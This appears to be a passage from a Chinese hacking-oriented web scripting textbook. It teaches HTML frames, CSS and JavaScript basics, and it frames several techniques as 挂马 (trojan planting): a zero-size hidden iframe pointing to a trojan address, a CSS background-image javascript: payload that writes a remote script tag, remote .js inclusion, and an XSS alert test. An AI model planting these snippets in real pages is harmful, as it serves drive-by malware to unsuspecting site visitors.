#### 3.6.2 框架标记 `<FRAME>`

从上面的代码中我们也可以看到在框架集内还存在一个 `<FRAME>` 的标记，这个标记叫做框架。每一个框架都可以显示一个页面，这个页面我们叫它框架页面。通过 `<FRAME>` 标记的属性可以定义框架页面的内容，常用的属性有 `SRC`、`NAME` 等。`SRC` 属性为在框架内要显示的文件路径，`NAME` 属性为这个框架的名字。例如在一个页面上显示两个框架页面的内容：

```html
<html>
<head>
<title>框架的运用</title>
</head>
<frameset cols="50%,50%">
    <frame src="one.html" name="one">
    // 连接文件 one.html 用于显示在第一个框架内
    <frame src="two.html" name="two">
    // 连接文件 two.html 用于显示在第二个框架内
</frameset>
</html>


```

图3-24显示了运行结果，在里面的两个框架里我连接了两个文件，分别为 `one.html` 和 `two.html`。
图3-24

#### 3.6.3 浮动框架 `<IFRAME>`

浮动框架是一种特殊的框架页面，可以在浏览器窗口中嵌套其他子窗口，在其中显示页面内容，同时它也是在黑客中使用非常频繁的一项技术。在黑客中它主要用来挂马。先看它的基本语法：

```html
<iframe src="file_url" height="value" width="value" name="iframe_name" align="value"></iframe>
```

从上面可以知道它含有很多属性，这些属性的具体含义见表3-5所示。

| 属性 | 描述 |
|---|---|
| SRC | 浮动框架中显示的页面源文件的路径 |
| WIDTH | 浮动框架的宽度 |
| HEIGHT | 浮动框架的高度 |
| NAME | 浮动框架的名称 |
| ALIGN | 浮动框架的排列方式 |
| FRAMEBORDER | 框架边框显示属性 |
| SCROLLING | 框架滚动条显示属性 |
| MARGINWIDTH | 框架边缘宽度属性 |
| MARGINHEIGHT | 框架边缘高度属性 |

其中 `SRC` 可以是本地文件地址，也可以是网络上的某个地址。例如我们要在一个网页中加一个浮动框架，把另外一个网页嵌入进去。编写代码如下：

```html
<html>
<head>
<title>浮动框架的运用</title>
</head>
<body>
<iframe src="three.html"></iframe>
</body>
</html>


```

运行结果如图3-25所示。另外地址还可以是网址，例如我们写入连接地址是 `www.baidu.com`，那么我们在打开这个网页的时候同时也打开了 BAIDU，如图3-26所示，而且是内嵌在里面的。
图3-25
图3-26

上面我说了在打开网页时同时也打开了 BAIDU，就是因为这个特性，所以被广泛地运用到了挂马上面。比如我们在一个网页里插入一个动态框架，而动态框架的 `SRC` 属性值为我们的木马地址。在上面的例子中，我没有设定框架的高度和宽度，但是在图中还是显示了框架。之所以不写是因为我想告诉大家，在默认情况下就算不写高度和宽度，系统也会显示这个动态框架。所以在挂马的时候，一定要把高度和宽度设为零。同时还有框架边框显示属性 `FRAMEBORDER` 也要写上，而且它的值也是零。为零表示不显示框架边框，而为一则显示边框。所以一个完整的框架挂马代码是 `<iframe src="我们的木马地址" height=0 width=0 frameborder=0></iframe>`。当然这个挂马技术在当前情况下的隐藏性不是太高，懂得分析代码的人可以很快查出真正的木马地址，但应用还是比较广，毕竟懂得分析代码的人还是少数。在后面我还会给大家介绍其他类型的挂马技术。

## 3.7 CSS层叠样式表

通过上面的学习，大家应该都对 HTML 有一定认识了。我们都知道在 HTML 文件中，文档结构（即标记）和需要显示的内容是混合在一起编写的，导致不同浏览器之间存在不兼容问题。为了能让网页在各种平台下正常显示，需要一种将显示描述彻底独立于文档结构的机制。于是人们就开始为 HTML 制定了样式机制，这就是层叠样式表 CSS。

层叠样式表 CSS 对于设计者来说是一种简单、灵活、易学的工具，能使任何浏览器都听从指令，知道该如何显示元素及其内容。CSS 是一组样式，样式属性依次作用于 HTML 元素，并显示在浏览器中。样式可以定义在 HTML 文档的标记里面，也可以存在于外部，作为引用放在 HTML 文档中。所以一个样式可以用于多个 HTML 页面，甚至整个网站，由此可见 CSS 有非常好的易用性和扩展性。

层叠样式表 CSS 可以使用 HTML 中的标签，也可以用自己命名的方式来定义。它不仅可以控制传统的一些文本属性，如字体、颜色等，还可以控制一些比较特别的 HTML 属性，如对象位置、图片效果等。CSS 可以一次控制多个文档中的文本，并且可以随时改动层叠样式表 CSS 的内容，以自动更新文档中文本的样式。

#### 3.7.1 层叠样式表的类型

上面讲了那么多 CSS 的优点，接下来就来说说层叠样式表 CSS 的类型，它包括三种类型。

- 1. 自定义层叠样式表

我们可以在文档的任何区域或文本中应用自定义层叠样式表。如果要将自定义的层叠样式表应用在一整段文字，那么会在相应标签中出现 `class` 属性，这个属性值就是自定义层叠样式表的名称。如果将定义的层叠样式表应用在部分文字上，那么就会出现 `<span>` 和 `</span>` 标签，并且也包含 `class` 属性。下面是自定义中比较常用的代码，而且这个代码在后面我会详细讲解，它就是鼎鼎大名的 CSS 挂马基础。

```css
.bg {background-image:url(bg.gif);}
<body class="bg">
```

- 2. 重定义标签的层叠样式表

我们可以针对某一个标签来定义层叠样式表，也就是说定义的层叠样式表只应用在我们选择的标签。例如我们在 `<body>` 和 `</body>` 之间定义了层叠样式表，那么所有包含在 `<body>` 和 `</body>` 标签之间的内容将遵循定义的层叠样式表。常见代码如下：

```css
td {color:#000099;font-size:9pt}
```

- 3. 层叠样式表选择符

层叠样式表选择符是为特殊的组合标签定义层叠样式表，通过使用 `ID` 作为属性，以保证文档具有唯一可用的值。层叠样式表选择符是一种比较特殊类型的样式，常用的有四种，分别为：`a:link`、`a:active`、`a:visited`、`a:hover`。

- ① `a:link` 设定正常状态下链接文字的样式  
- ② `a:active` 设定鼠标单击时链接的外观  
- ③ `a:visited` 设定访问过的链接外观  
- ④ `a:hover` 设定鼠标放置在链接文字之上时文字的外观

```css
a:link{color:#FF3366;font-family:"宋体";text-decoration:none;}
```

#### 3.7.2 层叠样式表的基本写法

层叠样式表基本写法有三种，下面简单介绍。

- 1. 在 `HEAD` 内的实现

层叠样式表一般位于 HTML 文件的头部，即在 `<head>` 和 `</head>` 标签之间。并且以 `<style>` 开始，以 `</style>` 结束。代码如下：

```html
<style type="text/css">
H1 {font-size:x-large;color:red}
H2 {font-size:large;color:blue}
</style>
```

- 2. 在 `BODY` 内的实现

在 `BODY` 中实现主要是在标记中引用，例如要让 `H3` 标记文字的大小为 `10pt`，可以使用如下语法：`<h3 style="font-size:10pt">`。

- 3. 在文件外的调用

层叠样式表的定义既可以在 HTML 文档内部，也可以作为单独文件。代码为：`<link rel="stylesheet" href="style.css" type="text/css">`

### 3.7.3 CSS挂马技术

上面我给大家讲解了 CSS 的基础知识，相信大家都对它已经有一定认识了。至于 CSS 的各种属性，这里我就不一一讲解了，因为太多了，而且大部分都和黑客技术没什么大的联系，不过在光盘中我已经收录了 CSS 的属性，大家可以去光盘里阅读。我下面就讲几个和 CSS 挂马相关的属性。相信很多朋友都听过 CSS 挂马，它的隐蔽性可是最高的哦。

要用 CSS 挂马，首先要用到文件外调用，代码是 `<link rel="stylesheet" href="style.css" type="text/css">`。`href` 属性就是连接外部文件的属性，在挂马的时候只需要改动这里，把它的值改成我们自己构造的 CSS 文件地址，例如 `http://xxxxx.xxxxx/css.css`。而在这个 `css.css` 文件中，我们需要用到自定义层叠样式表中的知识来挂马，代码为：`body { background-image: url(javascript:document.write("<script src=\"URL地址\"></script>")); }`。

`background-image` 就是页面的背景图案，而 `url` 就是需要连接的图片地址，当然它支持 JavaScript 语言。所以我们可以在里面写上 `javascript:document.write("<script src=\"URL地址\"></script>")`。它的意思是利用 JavaScript 文档对象的 `write` 方法写入 “URL地址” 中的内容，一般情况下为了隐蔽，这个 URL 地址为 JS 文件。因为这里还没有学 JavaScript 语言，所以自己的 URL 地址就先写上我们木马的地址。至于写入 JS 文件地址，我在下一章将详细讲解。这里就简单举个例子，代码如下：

```html
<html>
<head>
<style type="text/css">
div{
  background:url("javascript:window.alert('ok');");
}
</style>
</head>
<body>
  <div></div>
</body>
</html>


```

`background:url("javascript:window.alert('ok');");` 就是利用自定义层叠样式表中的 `url`。在这里就是利用 JavaScript 打开一个信息对话框，运行后如图3-27所示。不过这里打开之后会出现图3-28这样的提示，我们需要选择允许，不然就不会运行我们的代码了。可是我们把 `window` 的方法换成 `open` 的话，例如 `background:url("javascript:window.open('http://www.google.com');");`，那么执行之后就会自动打开 Google 的网页。如果把它换成我们的木马地址，同时把高度和宽度换成零，那么就可以成功挂马了。
图3-27
图3-28

### 3.8 结尾

通过上面的 HTML 学习，我想大家已经对 HTML 有比较熟悉的了解了。对 HTML 各种标记、自定义头像跨站、表单的运用、挂马技术应该都有认识了。但是仅仅学这点客户端脚本是不够用的，必须要学动态客户端脚本语言，那样对客户端攻击才会了解得更加透彻。所以第四章给大家安排了 JavaScript 和 VBScript 这两大主流客户端动态脚本语言给大家学习，一定很向往吧，那就 follow me！

**声明：**本章中的部分 **HTML基础知识** 参考了中国青年出版社出版的《**HTML标准教程**》，该书由胡艳洁编著。

你从本章可以学到如下几点：

- 1、JavaScript 基础知识
- 2、VBScript 基础知识
- 3、通用防注入系统
- 4、挂马的原理及实例攻击
- 5、脚本病毒的原理及技术分析

## 第四章 Javascript和vbscript入门

对于客户端脚本语言，如果只学 HTML 的话，那是肯定不够用。毕竟现在的网页都是动态的，没有动态效果就像一滩死水一样没有任何吸引力。而 JavaScript 和 VBScript 这两种动态客户端脚本语言，担当起了把 HTML 静态页面转变成支持用户交互并响应相应事件的活页面的角色。当然动态客户端脚本语言不只 JavaScript、VBScript 这两种，比如还有 JScript，但是这两种使用得最为广泛，也是脚本黑客所必须掌握的脚本语言之一。千万不要因为它们属于客户端脚本语言就小看它们，它们的功能也是非常强大的，比如 Google 桌面搜索小工具、MSN 桌面搜索 Gadget 都可用 JavaScript 和 VBScript 完成。同样它们在脚本黑客技术中也是运用得非常广泛，下面就开始我们新的学习之旅吧。

## 4.1 什么是Javascript语言

### 4.1.1 Javascript简介

Javascript 是一种通用的脚本编程语言，并具有安全性能的解释性语言。Javascript 代码嵌入在 HTML 页面中，它把静态页面转变成支持用户交互并响应事件的活页面。它能够运行在很多平台上，并独立于硬件。Javascript 和 HTML 关系密切，它们都是由浏览器来处理：HTML 是通过浏览器的组网库和图形子系统来处理和展示，而 Javascript 程序是通过浏览器内置的 Javascript 解释器执行的。

浏览器处理 Web 页面的一般过程为：浏览器请求一个 Web 页面，Web 服务器则把整个页面内容发送给浏览器，包括 HTML 和 Javascript 语句。之后浏览器加载 Web 页面，加载过程中浏览器读取 Web 页面的 HTML 语句并逐行翻译，直到遇到 Javascript 代码中的开始标记时，Javascript 解释器接管页面处理过程并继续进行处理；到达 Javascript 代码中的结束标记时，Javascript 解释器再将处理控制权交付出去，浏览器继续处理 HTML 内容。

- 1、由浏览器处理的 Javascript 称作客户端 Javascript。虽然 Javascript 主要用于客户端脚本编程，但这并不是 Javascript 的唯一用法。它也能够用于 Web 浏览器之外的其他环境，比如创建一种用于在服务器上编程的 Javascript，则它可以看成是像 ASP 一样的服务端脚本语言。但是这里我们不讨论服务端，而把精力放在 Javascript 运用最为广泛的客户端上。

2、很多初学者会以为 JavaScript 就是 JAVA，事实上，JavaScript 不是 JAVA。它们是由两家不同的公司开发出来的，JavaScript 是由 Netscape 公司开发，而 JAVA 则是 Sun Microsystems 公司开发的；JAVA 可以说是与 Web 页面无关，而 JavaScript 程序则嵌入在 Web 页面中，并且必须在浏览器中运行；JAVA 程序必须要经过编译器的编译（如 J2SDK）后才可以运行，而 JavaScript 程序则由内置在浏览器中的 JavaScript 引擎解释执行，不需要进行编译。

JavaScript 程序用于检测用户的活动，并对用户的操作做出相应的响应。比如，当鼠标点击某个链接的时候，该链接就变成了另外一种颜色，这就是对用户操作做出的相应响应。通过 JavaScript 程序，可以控制 Web 页面的外观，也能够检测用户数据的有效性，而这些操作都不需要和服务器进行交互，这样就减轻了服务器的处理数据负担。总的来说，JavaScript 能够完成以下功能：

- 1、控制文档的外观和内容
- 2、控制浏览器的行为
- 3、与用户交互  
  使用 Cookies 读写客户端状态
- 4、操作嵌入图像

#### 4.1.2 JavaScript 和事件

通过上一章的学习，我们知道 HTML 编写的 Web 页面是静态的。HTML 可以用于创建按钮、单选框、复选框、列表框和各种表格，但是 HTML 本身不能对用户的操作做出反应。可是 JavaScript 是动态的，它能够和用户在客户端（即浏览器）进行交互。例如，当用户填写一张表格，单击了按钮、图像、链接，或者在鼠标指针移过某个链接时，JavaScript 都能够对这些事件做出反应，并与用户进行动态交互。比如说，把我们在浏览器上填写的数据发往服务器之前，JavaScript 能够检查我们输入数据的有效性，这常常用于检测用户输入的 E-MAIL 地址是否合法。如图 4-1 所示，在 E-MAIL 地址处随便写个不合法的地址，单击提交后就马上弹出不合法的对话框，这就是检测的效果。
同时这也是对我们的单击事件做出的操作和反应。各位网友在此之前应该对事件要有一个清晰而正确的认识：事件是让页面活起来的驱动力，所有的 JavaScript 都是对某个事件做出的操作和反应。

事件和 HTML 是紧密连接在一起的，比如在下面的示例 4-1 中，我们使用 `<form>` 标记和属性创建了一个窗体。type 属性指定了输入框的类型为按钮；value 属性指定了这个按钮的值为“请单击此处”，这个值也是按钮的标题；当我们在浏览器窗口中单击这个按钮时，就会触发一个叫 Click 的 JavaScript 事件，Click 的意思是“单击”。使用 onClick 这个符号代表发生单击事件时执行的 JavaScript 代码，我们也可以叫做事件处理程序。这里我给 onClick 这个事件处理指定了一条语句，用户单击按钮后，就会执行这条语句。在这个示例 4-1 中，这条语句的功能是在一个消息框中显示“你刚刚单击了按钮，触发了 Click 事件！”。

示例 4-1 的代码如下：

```html
<html>
<head><title>事件处理</title></head>
<body>
<form>
<input type="button" value="请单击此处" onClick="alert('单击了按钮，触发了 Click 事件')">
</form>
</body>
</html>


```

图 4-2 显示了我们打开这个例子的 HTML 文档时显示的页面，图 4-3 显示了单击按钮后显示的消息框。
图 4-2
图 4-3

表 4-1 给出了 JavaScript 能够处理的一些常见事件。表格的第一列是事件处理程序属性名，这些名称都是以“on”开始；第二列是可以应用这些属性的 HTML 标记；第三列给出了事件的触发时机，也就是事件处理程序在什么时候才可以被运行。

| 事件处理程序 | HTML 标记 | 触发时机 |
|---|---|---|
| onAbort | `` | 图像加载过程中断时触发 |
| onBlur | `<body>` 和窗体元素 | 窗体和窗体元素在失去键盘焦点时触发 |
| onChange | 窗体元素 | 用户修改了窗体元素的值后触发 |
| onClick | 所有元素 | 用户单击了类似按钮这样的窗体元素后触发 |
| onError | `` | 加载图像过程中发生错误时触发 |
| onFocus | `<body>` | 窗体或窗体元素得到键盘焦点时触发 |
| onLoad | `<body><object>` | 文档、图像或对象完成加载时触发 |
| onMouseOut | 所有元素 | 鼠标指针离开对象时触发 |
| onMouseOver | 所有元素 | 鼠标指针移过对象时触发 |
| onSubmit | `<form>` | 用户提交窗体时触发 |
| onUnload | `<body>,<frameset>` | 卸载文档时触发 |

#### 4.1.3 JavaScript 代码的编写与执行

通过上一章的学习，相信大家对 HTML 的文档结构都已经比较熟悉了。当能够开发出静态的 HTML 页面之后，那么在这个页面中添加 JavaScript 语句就简单了。客户端的 JavaScript 程序是嵌入在 HTML 文档中头标记 `<head>` 和 `</head>` 或体标记 `<body>` 和 `</body>` 之间。

JavaScript 程序都是使用 `<script>` 标记作为程序的开始，`</script>` 标记作为程序的结束。所有的 JavaScript 代码都是在标记 `<script>` 和 `</script>` 之间编写。如果 JavaScript 程序很长，也很复杂，或者想让某个 JavaScript 程序重用，那么就应该把这样的程序放置在外部文件中，后缀名为 `.js`，并将这个 js 文件加载到 Web 页面中。JavaScript 代码中的注释通常有两种，一种是以两个斜杠（//）起始，这个注释支持一行注释，而如果要一次注释多行的话，那就可以用注释符 `/*........*/`。

下面我给出了一个在 `<body>` 标记中定义 JavaScript 程序的示例 4-2，让大家更加具体地明白 JavaScript 程序的定义位置和使用方法。这个例子的功能是在文档中输出一行文本，并与 HTML 文档中定义的静态文本对比。

示例 4-2 的代码如下：

```html
<html>
<head><title>javascript 编程示例</title></head>
<body>
<script language="javascript" type="text/javascript">
// javascript 代码使用的声明处
document.writeln("<h1>这是用 javascript 输出的代码</h1>");
// 利用 document 对象的 writeln 方法在页面上输出"javascript 输出的代码"这段文字
</script>
这是用 HTML 本身功能显示的文字
</body>
</html>


```
图 4-4

保存代码后，把文件后缀名改成 html 即可。如图 4-4 所示，就可以看到 JavaScript 语言编写的代码效果了。在示例 4-2 中，`<script>` 标记是 JavaScript 代码的开始标记，JavaScript 语句放在这个标记和代码结束标记 `</script>` 之间。同时在 `<script>` 标记里面还用到了 `language` 和 `type` 这两个属性，这些属性的具体作用将在 JavaScript 基础这一节中具体讲解，这里先让大家有一个感性认识。这里我们调用了文档对象 document 的 writeln() 函数，document 对象代表当前的文档，writeln() 函数是在当前的文档中输出一个字符串，引号中的字符串是输出的内容，有 C 语言基础的朋友应该很熟悉这个函数了。

上面我提到了，当 JavaScript 代码很长、很复杂，或者当 JavaScript 代码需要在多个 HTML 页面中重用时，我们可以把这些代码单独保存在一个外部文件中，然后在一个或者多个 HTML 页面中引用这些代码。保存 JavaScript 代码的外部文件必须使用扩展名为 js 的指定文件类型。在 HTML 页面中引用外部文件中的 JavaScript 代码时，将外部文件名赋值给 `<script>` 标记的 src 属性。JavaScript 代码的外部文件可以保存在本地，此时，外部文件名可以使用全路径或者部分路径；同时外部文件也可以保存在另外一台机器上，此时，赋值给 src 属性的文件名就必须是完整的 URL 名称，我们的 js 挂马技术就是用到这里的知识。示例 4-3 演示了引用存储在本地机器上的 js 文件。js 文件名字为 4-3.js，文件中的代码是：`document.writeln("<h1>这是用 javascript 引用外部 js 文件后输出的代码</h1>");`。而引用这个 js 文件的代码为：`<script language="javascript" src="C:\Documents and Settings\Administrator\桌面\4-3.js"></script>`。下面就是示例 4-3 中引用外部文件的完整代码：

```html
<html>
<head><title>引用外部 JS 文件</title>
<script language="javascript" src="C:\Documents and Settings\Administrator\桌面\4-3.js"></script>
</head>
<body>
<script language="javascript" type="text/javascript">
document.writeln("这是不引用外部 JS 文件输出的 javascript 代码");
</script>
</body>
</html>


```
图 4-5

如图 4-5 所示，我们引用的外部 js 文件已经在页面上显示了，js 挂马就是利用的这个原理。在 js 挂马中，我们只要把木马地址写入 js 文件即可达到挂马的效果，隐蔽性还是不错。小技巧：如果要关闭 JavaScript 的支持，方法是选择浏览器菜单栏中的“工具”->“Internet 选项”，在弹出的对话框中，激活“安全”标签，选择“本地 Internet”，单击“自定义级别”按钮，在弹出的“安全设置”对话框中，使用“设置”栏中的活动脚本置为“禁用”状态，单击“确定”按钮就关闭了 JavaScript 的支持；而要使用的话就单击“启用”即可。如图 4-6 所示。
图 4-6

JavaScript 脚本运行在 HTML 文档环境中，所以编写客户端的 JavaScript 代码时，首先要进行的工作是选择自己喜欢的编辑器来创建 HTML 文档。在 Windows 环境下我们一般使用记事本，而在 Linux 或者 Unix 下一般使用 vi 编辑器。不过有一点大家要注意，如果我们使用记事本来创建 HTML 文档，那么一定不要选中“格式”菜单中的“自动换行”菜单项，因为选中了可能会引起 HTML 文档错误。我们按照上面的知识写好了一个 JavaScript 文件后，只要把这个文件保存为 html 后缀即可。

### 4.2 JavaScript 基础

#### 4.2.1 语法规则

和我们人类使用的语言一样，所有的计算机编程语言也都有自己的规则。我们在利用编程语言编写程序的时候必须遵守这些规则，否则程序就不能够运行了。上一章我们已经对 HTML 语法规则有了一定的认识，接下来学习 JavaScript 的语法规则，这些都是编写 JavaScript 代码的基础。虽然有点枯燥，大家可要提起精神来呀，千万不打瞌睡，不然就跟不上了。

- 1、大小写。  

HTML 标记不区分大小写，在前面我已经给大家讲解得很清楚，如果对 HTML 语法还有什么不懂的地方可以参考上一章的具体内容，这里不多讲了。而在 JavaScript 代码中，各种名称都是区分大小写的。例如，JavaScript 使用 false 表示的逻辑值是“假”，如果我们把它拼写成其他形式，比如 False，那么就会导致程序出错或者这段代码被 JavaScript 的解释器忽略。一般来说，JavaScript 中使用的大多数名称都是采用小写形式，但也有一些名称采用大小写组合方式，比如示例 4-1 中的 onClick。因此，在编写代码时，要特别注意大小写的问题。

- 2、分号和语句结束符。  

JavaScript 语言是一种表达式语言，它的语句由表达式构成。程序在执行时，正常情况下按自上而下的方式顺序执行，一次执行一条语句。在 JavaScript 程序中，一行可以写一条语句，也可以写多条语句。一行中写多条语句时，语句之间用英文分号（;）分隔。一行只写一条语句时，语句的结尾处可以写上一个分号，也可以不写分号。不过我本人还是建议写上分号，因为这是养成一个良好的编程习惯。从语法上说，下面的两条语句都是正确的：

```javascript
var cityname="长沙"
var cityname="长沙";
```

第一条语句没有使用分号作为语句结束符，在语法上是正确的，但第二种表示方法更加清晰。下面的一行代码是错误的，原因是它在一行上书写了两条代码，并且在代码之间没有使用分号进行分隔：

```javascript
var cityname="长沙" document.write("你好，"+cityname);
// + 表示连接符的意思，把前后两个字符连在一起，并不是数学上的加号
```

正确的书写格式应该为：

```javascript
var cityname="长沙"; document.write("你好，"+cityname);
```

- 3、`<script>` 标记  

前面已经提到，JavaScript 代码放置在 HTML 标记 `<script>` 和 `</script>` 之间。反过来我们可以这样理解，HTML 标记 `<script>` 和 `</script>` 之间的一切内容都被浏览器认为是 JavaScript 代码。JavaScript 代码可以放置在 HTML 文档的任何位置。一般来说，如果希望在显示 HTML 页面之前执行代码，那么将 JavaScript 代码放在 `<head>` 和 `</head>` 标记之间。如果代码需要操作文档内容，比如插入一段文字，那么将 JavaScript 代码放在 `<body>` 和 `</body>` 之间。每一个 HTML 文档可以根据需要放置多个 `<script>` 和 `</script>` 标记，也就是可以编写多段代码，每一段代码可长可短，没有长度限制。`<script>` 和 `</script>` 标记的一般格式为：

```html
<script>
  一条或多条 JavaScript 语句
</script>
```

除了上面最简单的 `<script>` 标记之外，还可以使用属性来修饰这个标记，最常用的有 language、type、src 这三个属性。

- 1. language 属性指定程序代码使用哪一种脚本语言，常用的值为 JavaScript、VBScript、JScript。设置 language 属性的一般格式为：`<script language="JavaScript">`
- 2. type 属性用于同时指定脚本语言和 Internet 内容类型。使用 type 属性指定脚本语言为 JavaScript 的常用语句格式为：`<script type="text/javascript"></script>`
- 3. 当要执行的脚本代码存放在某个外部文件中时，使用 src 属性指定该文件，文件的扩展名通常为 .js，这样的文件称作 JavaScript 脚本文件。在文件名称中，可以包含路径或者 URL。

```html
<script language="JavaScript" type="text/javascript" src="haha.js"></script>
<script language="JavaScript" type="text/javascript" src="http://xxxx.com/haha.js"></script>
```

JavaScript 脚本文件保存 JavaScript 代码，其中不需要编写 `<script>`、`</script>` 标记，也不需要任何 HTML 标记。使用 src 属性的行为与直接把代码嵌套在 `<script>`、`</script>` 标记之间的行为是完全相同的，这就是 js 挂马技术的原理，利用它，我们可以挂马。

#### 4.2.2 动态生成页面内容

动态生成页面主要是构造出动态效果的 HTML 页面。要往 HTML 页面中输出，常用的有字符串拼接、write() 及 writeln() 等方法。

- 1. 字符串拼接。  

字符串是任意多个字符组成的一串符号，比如，“曾云好”就是一个字符串。JavaScript 规定，使用单引号或双引号把字符串文字括起来，这样来分辨出其他的 JavaScript 语言元素。不过有一点要注意的是，引号本身不是字符串的一部分，它的功能是告诉 JavaScript 解释器，引号中的内容是一个字符串。书写字符串时，一定要用相同的引号把字符串括起来，例如，`'长沙"` 是一个错误的字符串书写方法。使用加号（+）可以把两个字符串拼接起来，组成一个字符串。例如：“湖南省”+“长沙市”、‘湖南省’+‘长沙市’，都可以拼接出字符串“湖南省长沙市”。

- 2. write() 和 writeln() 方法。  

JavaScript 的一个重要功能就是能够动态地生成 HTML 页面。要把数据、文本以及 HTML 本身输出到浏览器中，我们就不能不提到 document 对象以及这个对象的 write() 和 writeln() 方法了。document 对象表示当前加载到浏览器中的 HTML 文档，即当前正在打开的 HTML 文件。write() 和 writeln() 方法是 document 对象的两个方法，它们的功能是把文本添加到浏览器中要显示文本的当前位置。write() 和 writeln() 方法的语法格式为：

```javascript
document.write(value,..............)
document.writeln(value,..............)
```

从上面括号里的参数可以看出，这两个方法可以同时输出多个值。例如：`document.write("湖南省", "长沙市")` // 在浏览器中添加输出“湖南省长沙市”

writeln() 方法的功能与 write() 方法相同，它们的唯一区别是 writeln() 方法在输出文字的同时，还要输出一个换行符号，不过要使 writeln() 方法产生换行的效果还必须加上 `<pre>` 这个标记。下面的示例 4-4 演示了 writeln() 和 write() 方法的显示效果差异。

```html
示例 4-4 代码如下：
<html>
<head><title>writeln() 和 write() 及 <pre> 标记显示效果的差异</title></head>
```

```html
<body>
<script language=JavaScript>
document.write("湖南省");
document.write("长沙市");
document.write("芙蓉区");
</script>
<br>================================<br>
//<br>标记为换行的作用
<script language=JavaScript>
document.writeln("湖南省");
document.writeln("长沙市");
document.writeln("芙蓉区");
</script>
<br>================================<br>
<pre>
<script language=JavaScript>
document.writeln("湖南省");
document.writeln("长沙市");
document.writeln("芙蓉区");
</script>
</pre>
</body>
</html>


```

在示例 4-4 中，写了三段代码，第一段代码用的是 write() 方法输出字符串“湖南省长沙市芙蓉区”；第二段代码用的是 writeln() 方法输出字符串“湖南省长沙市芙蓉区”；第三段也是和第二段用的相同的方法，不过在中间还加了一对 `<pre>` 标记。运行的结果如图 4-7 所示。
图 4-7

从图中我们可以看到，虽然第二段代码使用的是 writeln() 方法，但是结果却是和使用 write() 方法的结果一样，而第三段代码使用的是 writeln() 方法，可是在中间加了一对 `<pre>` 标记就出现了换行的效果。所以结论是对于一般的 HTML 文档来说，这两种方法产生的输出效果是一样的，但是结果位于 HTML 的 `<pre>` 标记中，那么使用 writeln() 就会出现换行的效果，当然还可以使用 `<br>` 标记也发生换行。

#### 4.2.3 与用户交互的基本方法

大多数情况，我们需要和程序进行交互，让程序告诉我们已经发生的情况，或从我们这里得到程序运行的下一步的数据，这种例子太多，比如我们登录 QQ 的时候需要输入 QQ 号码和密码，这也是一个与程序的交互过程。在 Javascript 语言中，提供的对话框功能可以帮助我们实现这个功能，达到与用户交互的目的。可以使用 alert()、prompt()、confirm() 这三种方法来创建对话框。

##### 1. 显示信息对话框的 alert() 方法

与上一节讲的 write() 和 writeln() 方法不同的是，alert() 方法生成的是一个独立的小窗口，称作对话框，用它来显示一条信息和一个按钮。虽然不同的浏览器中的 alert() 对话框的外观不完全相同，但是功能是一样的。alert() 方法的语法格式为：alert(expression);。expression 是一个字符串类型的参数，并在对话框中显示该参数的值。

不过需要注意的是 alert() 方法不处理参数字符串中包含的 HTML 标记，如果在字符串参数中包含 HTML 标记，那么 alert() 方法直接作为字符串而显示这些标记，但是可以在 alert() 方法的参数中使用转义字符，比如换行符 `\n` 等，从而控制文字的显示位置。而且看过跨站方面文章的朋友都知道，跨站经常是弹出一个对话框，利用的知识就是 alert() 方法，通常写入的代码是 `<script>alert("cmd")</script>`。示例 4-5 演示了 alert() 方法的使用。代码如下：

```html
<html>
    <head><title>alert()方法的使用示例</title></head>
<body>
    <script>alert("alert 方法")</script>
    <script>alert("alert\n 方法")</script>
    <script>alert("可以用来跨站")</script>
</body>
</html>


```

在第二个 alert() 方法中使用了 `\n` 换行符，所以在弹出的对话框中就会有两行，如图 4-8 所示。而对于跨站，我将在后面给大家详细地讲解。
图 4-8

##### 2. 显示确认选择对话框的 confirm() 方法

确认选择对话框用于确定用户对某个 YES/NO 风格问题的回答。这种风格的对话框中显示一个问号和两个按钮：“确定”和“取消”。当我们点击“确定”按钮时，confirm() 方法返回 true，否则就返回 false。confirm() 方法只需要一个参数，用于向用户提出 YES/NO 风格问题。confirm() 方法的语法格式为：confirm(string)。其中 string 是要在该对话框中显示的提示信息。示例 4-6 演示了 confirm() 方法的使用，代码如下：

```html
<html>
<head><title>confirm()方法的使用示例</title></head>
<body>
<script language="javascript">
document.writeln("湖南省    长沙市");

if(confirm("要显示我更加详细的地址吗？")==true){
    document.writeln("芙蓉区    远大路");
    alert("已经显示我的详细地址了");
}
else{
    alert("不显示我的详细地址");
}
</script>
</body>
</html>


```

把代码保存之后打开，首先输出字符串“湖南省　长沙市”并弹出一个选择确认对话框，如图 4-9 所示。如果我们选择确定，那么 confirm() 方法返回 true，和上面我们 if……else 语句中的判断条件相符合，那么就会继续输出字符串“芙蓉区　远大路”，并弹出信息对话框，提示“已经显示我的详细地址了”，如图 4-10；如果选择的是取消，那么就弹出信息对话框，提示“不显示我的详细地址”，如图 4-11。
图 4-9
图 4-10
图 4-11

##### 3. 显示提示对话框的 prompt() 方法

使用 prompt() 方法显示提示对话框，在这个对话框中，可以显示一条由参数指定的消息，并等待用户在文本框中输入一段文字，同时这个对话框还显示了两个按钮：“确定”和“取消”。用户点击“确定”按钮后，返回用户在对话框的文本框中输入的文字，否则返回 null，即返回空。

prompt() 方法使用两个参数：第一个参数是一个字符串，指定在对话框中显示的消息；第二个参数也是一个字符串，指定在文本框中显示的初始值，如果省略了这个参数那么就会在文本框中显示字符串 “undefined”，如图 4-12 所示。
图 4-12

如果该参数的值为空字符串，那么在文本输入框中什么也不显示。prompt() 方法的两种可用语法格式为：

```javascript
prompt(message);
prompt(message,defaultText);
```

其中，message 是指定对话框中显示的消息，defaultText 指定文本框中显示的初始内容。示例 4-7 演示了 prompt() 方法，代码如下：

```html
<html>
<head><title>prompt()方法的使用示例</title></head>
<body>
<script language="javascript">
prompt("年龄","");
prompt("地址","湖南");
</script>
</body>
</html>


```

保存后运行的结果，如图 4-13 所示。
图 4-13

#### 4.2.4 变量和函数的声明与使用

##### 1. 变量

在我们的现实生活中，每个人都有名字，通常可能还有几个名字，比如一个姓名和一个小名。而在我们的计算机语言里也同样存在名字，我们叫它变量。而这个变量代表的是系统里一个存储区域。所有的计算机编程语言都提供了变量这个语言元素。变量用于存储数据，比如数字或字符串等等。变量一般有名称、类型及变量的值这三方面的特性。比如：

```javascript
Num=8;
City="长沙";
```

不是任何符号都能够做变量的名称。根据 Javascript 的规定，变量的名称是以字符或下划线开头，后面跟一个或多个字母或数字，而且变量名称区分大小写，例如 name、Name 是两个不同的变量。

变量在使用之前一定要声明，声明变量的方式有两个：

- 使用关键字 var 显式声明变量。
- 使用赋值语句隐式地声明变量。

